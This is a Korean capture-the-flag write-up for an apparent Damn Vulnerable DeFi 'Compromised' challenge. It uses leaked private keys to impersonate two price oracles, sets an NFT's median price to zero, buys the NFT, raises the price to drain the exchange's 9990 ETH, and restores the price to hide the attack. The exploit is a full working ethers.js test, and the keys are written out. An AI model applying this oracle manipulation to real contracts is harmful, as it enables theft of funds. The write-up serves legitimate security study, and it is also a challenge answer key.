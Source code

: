 목표는 exchange 컨트랙트의 9990이더를 전부 탈취해서 0이더로 만들고 공격자의 주소에 있는 이더가 9990이더보다 커야하며 공격자는 NFT를 더이상 가지고 있지 않아야 하고 NFT의 가격은 여전히 초기와 같이 999여야 한다.

즉 공격은 다음과 같이 구성하면 된다.

1. 개인키를 이용해 TrustSource를 사칭하여 두 source의 NFT 가격을 각각 0 0으로 만들어 중간값을 0으로 만든다.
2. attacker는 중간값이 0이므로 공짜로 NFT를 살수 있다.
3. 다시 두 source의 NFT의 가격을 9990 9990 (exchange에 있는 이더 양)으로 만들어 중간값을 9990으로 만든다.
4. attacker가 샀던 NFT를 판매하면 exchange에서 9990이더를 탈취할 수 있다.
5. NFT 가격을 원래 가격인 999로 설정해주어 

개인키를 가지고 지갑을 사칭하는 방법은 new ethers.Wallet(개인키,provider)를 이용하면 된다.

![지갑 사칭.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/7ee94976-a9c4-4e88-8964-58b151ee6b59/%EC%A7%80%EA%B0%91_%EC%82%AC%EC%B9%AD.png)

```tsx
it('Exploit', async function () {        
        let private_key1 = "0xc678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9";
        let private_key2 = "0x208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48";

        let compromisedOracle1 = new ethers.Wallet(private_key1,ethers.provider);
        let compromisedOracle2 = new ethers.Wallet(private_key2,ethers.provider);

        let tokenID; 
        await this.oracle.connect(compromisedOracle1).postPrice("DVNFT",0);
        await this.oracle.connect(compromisedOracle2).postPrice("DVNFT",0);
    
        tokenID= await this.exchange.connect(attacker).callStatic.buyOne({value:ethers.utils.parseEther('0.001')});
        await this.exchange.connect(attacker).buyOne({value:ethers.utils.parseEther('0.001')});
        
				await this.nftToken.connect(attacker).approve(this.exchange.address,tokenID);
   
        await this.oracle.connect(compromisedOracle1).postPrice("DVNFT",EXCHANGE_INITIAL_ETH_BALANCE);
        await this.oracle.connect(compromisedOracle2).postPrice("DVNFT",EXCHANGE_INITIAL_ETH_BALANCE);

        await this.exchange.connect(attacker).sellOne(tokenID);

        await this.oracle.connect(compromisedOracle1).postPrice("DVNFT",INITIAL_NFT_PRICE );
        await this.oracle.connect(compromisedOracle2).postPrice("DVNFT",INITIAL_NFT_PRICE );
}
```

1. 유출된 개인키를 이용해서 ehters.provider에 연결하여 오라클1,2를 사칭한다.
2. 오라클의 각 DVNFT의 가격을 0으로 설정한다. 이제 이더를 보내면 공짜로 NFT를 살 수 있다.
3. tokenID 값을 받아와야 하는데 트랜잭션을 실행시키면 리턴 값이 트랜잭션이 된다. 따라서 callStatic을 이용하여 트랜잭션의 상태를 변화시키지 않고 실행했을 때의 결과 값을 가져와 tokenID에 저장한다.(판매할 때 tokenID가 필요하므로)
4. 실행했을 때의 결과를 받아왔으니 실제 트랜잭션을 발생시켜서 NFT를 구매한다.
5. 판매를 위해서는 exchange 컨트랙트에게 먼저 approve를 해주어야 하므로 approve를 해준다.
6. 가격을 exchange 컨트랙트에 있는 금액으로 변경시켜 중간값을 9990이더로 바꾸어준다.
7. NFT를 판매하여 exchange 컨트랙트에 있는 모든 이더를 가져온다.
8. 원래 NFT 가격으로 다시 변경시켜주어 흔적을 지운다.

![해결.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/07ecbda8-f9da-442f-abaa-b92dbefe0cee/%ED%95%B4%EA%B2%B0.png)

npm run compromised를 통해 테스트를 실행해보면 Exploit이 정상적으로 잘 진행된 것을 확인할 수 있다.
